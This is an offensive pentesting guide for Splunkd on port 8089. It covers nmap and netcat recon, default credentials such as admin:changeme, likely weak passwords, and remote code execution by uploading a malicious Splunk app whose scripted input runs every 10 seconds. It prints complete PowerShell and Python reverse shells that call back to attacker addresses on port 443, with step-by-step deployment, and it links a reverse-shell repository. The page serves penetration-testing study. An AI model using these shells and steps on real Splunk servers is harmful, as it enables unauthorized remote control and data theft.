 # 8089 - Pentesting Splunkd

**Splunkd** is the core component of the Splunk platform, responsible for indexing, searching, and processing data ingested by Splunk. It provides a web interface and APIs for managing and analyzing machine-generated data.

Splunk is widely used for log management, security information and event management (SIEM), and data analytics in enterprise environments.

## **Basic Information**

* Log analytics tool used for data gathering, analysis, and visualization
* Commonly used in security monitoring and business analytics
* Default ports:
  * Web server: 8000
  * Splunkd service: 8089

## Connect
### Connect Using Web Interface
You can access the Splunk web interface by navigating to https://<splunk-server-ip>:8089 in a web browser.

### Connect Using Splunk CLI
Splunk CLI commands can be used for various administrative tasks and querying data. You can connect to Splunk using the following command:
```
splunk login -auth <username>:<password> -port 8089 -host <splunk-server-ip>
```
## Recon
### Identifying a Splunk Server
You can use Nmap to check if there's a Splunk server running on a target host like this:
```
nmap -p 8089 X.X.X.X
```
### Banner Grabbing
You can use tools like Netcat to perform banner grabbing and retrieve information about the Splunk service:
```
nc -nv X.X.X.X 8089
```
## Enumeration
### Splunkd API Endpoints
Splunkd exposes various API endpoints for interacting with the Splunk platform. You can enumerate these endpoints to gather information about the server and available functionalities.

## Attack Vectors
### Default Credentials
Check for default credentials or weak authentication configurations in Splunk instances, such as admin:admin or admin:<blank>.

### Unauthorized Access
Exploit misconfigured access controls or weak authentication mechanisms to gain unauthorized access to sensitive data stored in Splunk.

## Post-Exploitation
### Common Splunk CLI Commands

| Command	                      | Description                                         | 
--------------------------------|-----------------------------------------------------
| splunk search <query>	        |Perform a search query in Splunk.
| splunk list <entity>	         |List entities like indexes, sources, or sourcetypes.
| splunk info <entity>	         |Display detailed information about a specific entity.
| splunk add <entity> <name>	   | Add a new entity to Splunk (e.g., index, input).
| splunk delete <entity> <name>	| Delete an existing entity from Splunk.

### Data Manipulation
Manipulate indexed data in Splunk, such as modifying or deleting events, altering timestamps, or injecting fake data.

### Vulnerability Vectors:

1. Free Version Exploitation

* Trial version automatically converts to free version after 60 days
* Free version lacks authentication
* Potential security risk if left unmanaged
* Administrators may overlook security implications

2. Credential Weaknesses

* Older versions: Default credentials `admin:changeme`
* Newer versions: Credentials set during installation
* Potential for weak password use (e.g., `admin`, `Welcome`, `Password123`)

3. Remote Code Execution Opportunities

* Multiple code execution methods:
  * Server-side Django applications
  * REST endpoints
  * Scripted inputs
  * Alerting scripts
* Cross-platform support (Windows/Linux)
* Scripted inputs can run:
  * Bash scripts
  * PowerShell scripts
  * Batch scripts

Key Exploitation Potential:

* Sensitive data storage
* Lack of authentication in free version
* Multiple vectors for potential remote code execution
* Possibility of leveraging scripted inputs for system compromise

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

Splunk offers a sophisticated method for remote code execution through custom application deployment, leveraging its cross-platform scripting capabilities. The core exploitation technique revolves around creating a malicious application that can execute reverse shells on both Windows and Linux systems.

A custom application can run **Python, Batch, Bash, or PowerShell scripts**. Moreover, **Splunk comes with Python installed**, so even in **Windows** systems you will be able to run python code.

You can use [**this**](https://github.com/0xjpuff/reverse_shell_splunk) example with the **`bin`** containing example for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Or you could create your own.

The exploitation process follows a consistent methodology across platforms:

```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```

The critical configuration file `inputs.conf` enables the script by:

* Setting `disabled = 0`
* Configuring a 10-second execution interval
* Defining the script's source type

Deployment is straightforward:

1. Create the malicious application package
2. Set up a listener (Netcat/socat) on the attacking machine
3. Upload the application through Splunk's interface
4. Trigger automatic script execution upon upload

Sample Windows PowerShell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};
$client.Close()
```

Sample Linux Python reverse shell:

```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```

### RCE & Privilege Escalation

In the following page you can find an explanation how this service can be abused to escalate privileges and obtain persistence:


